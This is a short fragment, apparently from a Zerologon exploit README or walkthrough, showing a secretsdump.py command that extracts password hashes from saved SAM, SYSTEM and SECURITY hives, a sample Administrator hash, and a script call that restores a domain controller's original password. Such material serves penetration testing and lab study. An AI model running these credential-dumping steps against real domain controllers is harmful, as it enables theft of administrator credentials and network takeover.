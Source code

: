 ```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

Looking for:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:06ebd4bf3fa4fe306259c45e389dc976:::

## Restore the original password:
python3 reinstall_original_pw.py <NetBIOS-name> <IP-Address> <admin-hash>

```
python3 reinstall_original_pw.py ZEROLOGON-DC 192.168.1.28 aad3b435b51404eeaad3b435b51404ee:6d4a95ae230e5ce2c1dbfd780e340cbc
```
